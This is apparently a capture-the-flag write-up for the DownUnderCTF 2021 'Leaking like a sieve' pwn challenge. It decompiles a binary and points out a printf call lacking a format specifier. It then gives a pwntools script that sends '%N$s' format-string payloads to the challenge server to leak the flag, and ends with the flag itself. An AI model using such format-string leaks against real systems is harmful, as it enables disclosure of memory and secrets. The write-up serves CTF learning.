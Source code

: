 # Leaking like a sieve

> This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?
>
> Author: xXl33t_h@x0rXx
> 
> [`hellothere`](hellothere)

## Analysis

# checksec

```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Partial
```

## Decompile with radare2

```cpp
void main(void){
    int64_t iVar1;
    int64_t in_FS_OFFSET;
    int64_t var_60h;
    undefined8 stream;
    char *format;
    char *s;
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.buffer_init();
    iVar1 = sym.imp.fopen("./flag.txt", 0x2008);
    if (iVar1 == 0) {
        sym.imp.puts(
                    "The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server."
                    );
        sym.imp.exit(0);
    }
    sym.imp.fgets(&s, 0x20, iVar1);
    do {
        sym.imp.puts("What is your name?");
        sym.imp.fgets(&format, 0x20, _reloc.stdin);
        sym.imp.printf("\nHello there, ");
        sym.imp.printf(&format);
        sym.imp.putchar(10);
    } while( true );
}
```

From the decompiled code we can see that the last printf call does not have a format specifier.

So we can abuse it like this

![](/DownUnderCTF_2021/pwn/Leaking%20like%20a%20sieve/imgs/leak.png)

But to leak the flag, we need to find the number of stack postions to leak after.

We can try to use a for loop to find it.

### Exploit

```py
from pwn import *

if args.REMOTE:
    p=remote('pwn-2021.duc.tf', 31918)
else:
    p=process('./hellothere')

for i in range(8):
    p.recvuntil("name?")
    print(i)
    p.sendline("%"+str(i)+"$s")
    p.recvuntil("there,")
    print(p.recvline())
```

Running locally

![](/DownUnderCTF_2021/pwn/Leaking%20like%20a%20sieve/imgs/local.png)

Running on remote

![](/DownUnderCTF_2021/pwn/Leaking%20like%20a%20sieve/imgs/remote.png)

flag: ` DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`